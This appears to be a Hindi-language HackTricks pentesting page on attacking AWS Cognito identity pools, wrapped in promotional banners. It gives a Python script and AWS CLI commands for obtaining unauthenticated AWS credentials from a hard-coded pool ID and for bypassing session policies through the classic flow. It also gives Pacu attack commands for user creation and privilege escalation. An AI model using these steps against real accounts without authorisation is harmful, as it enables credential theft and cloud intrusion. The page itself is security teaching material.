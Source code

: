 # Cognito पहचान पूल

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## मूल जानकारी

पहचान पूल के साथ, आपके उपयोगकर्ता **AWS सेवाओं तक पहुंचने के लिए अस्थायी AWS प्रमाणपत्र प्राप्त कर सकते हैं**, जैसे कि Amazon S3 और DynamoDB। पहचान पूल गुमनाम अतिथि उपयोगकर्ताओं का समर्थन करते हैं, साथ ही निम्नलिखित पहचान प्रदाता जिनका उपयोग आप पहचान पूल के लिए उपयोगकर्ताओं को प्रमाणित करने के लिए कर सकते हैं:

* Amazon Cognito उपयोगकर्ता पूल
* Facebook, Google, Login with Amazon, और Sign in with Apple के साथ सामाजिक साइन-इन
* OpenID Connect (OIDC) प्रदाता
* SAML पहचान प्रदाता
* डेवलपर प्रमाणित पहचान

### Cognito Sync

पहचान पूल सत्र उत्पन्न करने के लिए, आपको पहले **पहचान ID उत्पन्न करनी होगी**। यह पहचान ID उस उपयोगकर्ता के सत्र की **पहचान है**। इन पहचानों में 20 डेटासेट तक हो सकते हैं जो 1MB तक की कुंजी-मान जोड़े संग्रहीत कर सकते हैं।

यह **उपयोगकर्ता की जानकारी रखने के लिए उपयोगी है** (जो हमेशा एक ही पहचान ID का उपयोग करेगा)।

इसके अलावा, सेवा **cognito-sync** वह सेवा है जो **इस जानकारी को प्रबंधित और सिंक्रनाइज़ करने की अनुमति देती है** (डेटासेट में, स्ट्रीम्स में जानकारी भेजना और SNSs संदेशों में...).

### पेंटेस्टिंग के लिए उपकरण

* [Pacu](https://github.com/RhinoSecurityLabs/pacu), AWS शोषण फ्रेमवर्क, अब "cognito\_\_enum" और "cognito\_\_attack" मॉड्यूल शामिल करता है जो एक खाते में सभी Cognito संपत्तियों की सूचीबद्धता और कमजोर कॉन्फ़िगरेशन, उपयोगकर्ता विशेषताओं को एक्सेस नियंत्रण के लिए इस्तेमाल किया जाता है, आदि को चिह्नित करने के लिए स्वचालित करता है, और यह भी स्वचालित उपयोगकर्ता निर्माण (MFA समर्थन सहित) और आधारित परिवर्तनीय कस्टम विशेषताओं, उपयोगी पहचान पूल प्रमाणपत्र, id टोकन में मान लेने योग्य भूमिकाएं, आदि पर विशेषाधिकार वृद्धि करता है।

मॉड्यूल के कार्यों का विवरण देखने के लिए [ब्लॉग पोस्ट](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2) के भाग 2 देखें। स्थापना निर्देशों के लिए मुख्य [Pacu](https://github.com/RhinoSecurityLabs/pacu) पृष्ठ देखें।

#### उपयोग

एक दिए गए पहचान पूल और उपयोगकर्ता पूल क्लाइंट के खिलाफ उपयोगकर्ता निर्माण और सभी privesc वेक्टरों का प्रयास करने के लिए cognito\_\_attack का नमूना उपयोग:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
नमूना cognito\_\_enum का उपयोग वर्तमान AWS खाते में दिखाई देने वाले सभी उपयोगकर्ता पूल, उपयोगकर्ता पूल क्लाइंट, पहचान पूल, उपयोगकर्ता, आदि को एकत्रित करने के लिए:
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) एक CLI टूल है जो python में बनाया गया है जो Cognito पर विभिन्न हमलों को लागू करता है जिसमें अनचाहे खाता निर्माण और identity pool वृद्धि शामिल है।

#### स्थापना
```bash
$ pip install cognito-scanner
```
#### प्रयोग
```bash
$ cognito-scanner --help
```
अधिक जानकारी के लिए https://github.com/padok-team/cognito-scanner देखें

## IAM भूमिकाओं तक पहुँचना

### अप्रमाणित

एक हमलावर को Cognito ऐप में अप्रमाणित उपयोगकर्ता के रूप में **AWS प्रमाण-पत्र प्राप्त करने** के लिए केवल **Identity Pool ID** के बारे में जानना आवश्यक है, और यह **ID वेब/मोबाइल एप्लिकेशन** में हार्डकोडेड होनी चाहिए ताकि वह इसका उपयोग कर सके। एक ID इस तरह दिखती है: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (इसे ब्रूटफोर्स नहीं किया जा सकता)।

{% hint style="success" %}
**IAM Cognito अप्रमाणित भूमिका जो बनाई गई है उसे** डिफ़ॉल्ट रूप से `Cognito_<Identity Pool name>Unauth_Role` कहा जाता है
{% endhint %}

यदि आपको एक Identity Pools ID हार्डकोडेड मिलती है और यह अप्रमाणित उपयोगकर्ताओं को अनुमति देती है, तो आप AWS प्रमाण-पत्र प्राप्त कर सकते हैं:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
या आप निम्नलिखित **aws cli commands** का उपयोग कर सकते हैं:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
ध्यान दें कि डिफ़ॉल्ट रूप से एक अप्रमाणित Cognito **उपयोगकर्ता के पास कोई भी अनुमति नहीं हो सकती है, भले ही उसे नीति के माध्यम से असाइन किया गया हो**। निम्नलिखित अनुभाग देखें।
{% endhint %}

### संवर्धित बनाम मूल प्रमाणीकरण प्रवाह

पिछला अनुभाग **डिफ़ॉल्ट संवर्धित प्रमाणीकरण प्रवाह** का पालन करता है। यह प्रवाह IAM रोल सत्र को एक **प्रतिबंधात्मक** [**सत्र नीति**](../../aws-basic-information/#session-policies) सेट करता है। यह नीति केवल सत्र को [**इस सूची से सेवाओं का उपयोग करने की अनुमति देगी**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (भले ही रोल को अन्य सेवाओं तक पहुँच हो)।

हालांकि, इसे बायपास करने का एक तरीका है, अगर **Identity pool में "मूल (क्लासिक) प्रवाह" सक्षम है**, तो उपयोगकर्ता उस प्रवाह का उपयोग करके एक सत्र प्राप्त कर सकता है जिसमें वह प्रतिबंधात्मक सत्र नीति **नहीं होगी**।

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
यदि आपको यह **एरर** प्राप्त होता है, तो इसका मतलब है कि **बेसिक फ्लो सक्षम नहीं है (डिफ़ॉल्ट)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

IAM क्रेडेंशियल्स का एक सेट होने पर आपको [आपके पास कौन सी पहुंच है](../../#whoami) यह जांचना चाहिए और [अधिकार बढ़ाने की कोशिश करनी चाहिए](../../aws-privilege-escalation/).

### Authenticated

{% hint style="info" %}
याद रखें कि **प्रमाणित उपयोगकर्ताओं** को शायद **अलग-अलग अनुमतियां** दी जाएंगी, इसलिए यदि आप **ऐप के अंदर साइन अप** कर सकते हैं, तो ऐसा करने की कोशिश करें और नए क्रेडेंशियल्स प्राप्त करें।
{% endhint %}

**प्रमाणित उपयोगकर्ताओं के लिए उपलब्ध भूमिकाएं** भी हो सकती हैं जो Identity Pool तक पहुंच रहे हैं।

इसके लिए आपको **आइडेंटिटी प्रोवाइडर** तक पहुंच की आवश्यकता हो सकती है। यदि वह एक **Cognito User Pool** है, शायद आप डिफ़ॉल्ट व्यवहार का दुरुपयोग करके **स्वयं एक नया उपयोगकर्ता बना सकते हैं**।

{% hint style="success" %}
**IAM Cognito प्रमाणित भूमिका जो बनाई गई है उसे डिफ़ॉल्ट रूप से कहा जाता है** `Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

वैसे भी, **निम्नलिखित उदाहरण** यह मानता है कि आप पहले ही एक **Cognito User Pool** में लॉग इन कर चुके हैं जिसका उपयोग Identity Pool तक पहुंचने के लिए किया जाता है (याद रखें कि अन्य प्रकार के आइडेंटिटी प्रोवाइडर भी कॉन्फ़िगर किए जा सकते हैं)।

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Get the identity_id from the previous commnad response
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# In the IdToken you can find roles a user has access because of User Pool Groups
# Use the --custom-role-arn to get credentials to a specific role
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
यह संभव है कि **उपयोगकर्ता के लॉग इन होने वाले आइडेंटिटी प्रोवाइडर के आधार पर अलग-अलग IAM भूमिकाएं कॉन्फ़िगर की जा सकती हैं** या यहां तक कि केवल **उपयोगकर्ता पर निर्भर करते हुए** (दावों का उपयोग करके)। इसलिए, यदि आपके पास एक ही या अलग-अलग प्रोवाइडर्स के माध्यम से विभिन्न उपयोगकर्ताओं तक पहुंच है, तो उन सभी के IAM भूमिकाओं तक पहुंचने के लिए लॉग इन करना और प्रयास करना **सार्थक हो सकता है**।
{% endhint %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में शामिल हों या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
